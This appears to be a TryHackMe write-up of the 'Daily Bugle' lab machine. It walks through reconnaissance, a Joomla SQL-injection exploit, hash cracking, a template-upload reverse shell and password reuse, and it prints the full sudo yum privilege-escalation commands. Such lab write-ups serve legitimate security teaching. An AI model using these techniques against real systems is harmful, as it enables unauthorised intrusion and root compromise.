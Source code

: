 ```yaml
---
title: Tryhackme | Dailybugle
date: 2023-07-18 09:24:00 +0530
categories: [Injection]
tags: [joomla, yum]     # TAG names should always be lowercase
---
```


Tryhackme Room: [https://tryhackme.com/room/dailybugle](https://tryhackme.com/room/dailybugle)

## Nmap Scan:

![a852286dc41e63dc9928fbaf554c083e.png](/_resources/a852286dc41e63dc9928fbaf554c083e.png)

**Open Ports:**

- 22 ssh
- 80 http
- 3306 mysql

**Port 80 (HTTP)**
It opens the following page:
![9ae166b729ae75b299d40772970b9099.png](/_resources/9ae166b729ae75b299d40772970b9099.png)

First we tried to login to the Login form with random default password, but it failed. We also checked the source page but nothing interesting came out.

Next we checked the robots.txt file. We got some interesting information as follows:

![26687dde940a0d88bdf304b08bddeb3b.png](/_resources/26687dde940a0d88bdf304b08bddeb3b.png)

It seems like joomla is installed. So we will look for it.

We found joomla at /administrator.

![c54faa7379577ac1f9946d0233d1f6b8.png](/_resources/c54faa7379577ac1f9946d0233d1f6b8.png)

We have searched the page for the version, but we didn't found. So we searched online and found that we can check for version from the following link:

```
    http://www.[thejoomlawebsite].com/administrator/manifests/files/joomla.xml
```

We tried on our victim machine and found the version:

![a2558691c45a95c8e7dc4e37c7b97d7c.png](/_resources/a2558691c45a95c8e7dc4e37c7b97d7c.png)

Next we searched for exploit and found the following python script from github:
https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py

Downloaded to our machine and run the script. We found the User and password hash:

![8330be31795c75015e0979033b907913.png](/_resources/8330be31795c75015e0979033b907913.png)

Found from the hashcat Wiki, the hash type is bcrypt:

![c28a47ac841933832fe1f7e99230c3d4.png](/_resources/c28a47ac841933832fe1f7e99230c3d4.png)

So, next we pass the hash to hashcat and it cracked for us:

![d2c8a23cad4248e6bc8b80735b8dbb21.png](/_resources/d2c8a23cad4248e6bc8b80735b8dbb21.png)

Next, with the credentials we will log into the joomla administrator. The Control Panel will look like this:

![3976c8a7c66e65fdd968627625ceb35c.png](/_resources/3976c8a7c66e65fdd968627625ceb35c.png)

Then, we searched for any upload function for getting our reverse shell and found on the template section.

![abf0de654735af59ee2bdf2578f9354c.png](/_resources/abf0de654735af59ee2bdf2578f9354c.png)

Accessed this following path and got the reverse shell:

```
    http://10.10.247.226/templates/protostar/shell.php
```

![49cda998af13f2fed7a82607ad479b59.png](/_resources/49cda998af13f2fed7a82607ad479b59.png)

Next, we searched for any sensitive information files, and we got it inside /var/www/html file:

![d1b0f1d001f481cf9f8136dabffb5c91.png](/_resources/d1b0f1d001f481cf9f8136dabffb5c91.png)

Tried to ssh to root with this password but failed. Then tried to login to other user in the machine.
And finally succeeded to ssh into jjameson account with that password:

![8866359b5afc47f8611b035ded3070cc.png](/_resources/8866359b5afc47f8611b035ded3070cc.png)

## Privilege Escalation

Next, we checked sudo -l and we saw that we can run yum binary without password:

![ecec9582e47c3345f96242168a0d530f.png](/_resources/ecec9582e47c3345f96242168a0d530f.png)

So, we grab the sudo privilege escalation commands from gtfobins:

```bash
    TF=$(mktemp -d)
    cat >$TF/x<<EOF
    [main]
    plugins=1
    pluginpath=$TF
    pluginconfpath=$TF
    EOF

    cat >$TF/y.conf<<EOF
    [main]
    enabled=1
    EOF

    cat >$TF/y.py<<EOF
    import os
    import yum
    from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
    requires_api_version='2.1'
    def init_hook(conduit):
      os.execl('/bin/sh','/bin/sh')
    EOF

    sudo yum -c $TF/x --enableplugin=y
```

![f0dc07b55ba039429f28aaf93f071b96.png](/_resources/f0dc07b55ba039429f28aaf93f071b96.png)

Finally, we rooted this machine from Tryhackme. It was a challenging and fun machine to solve.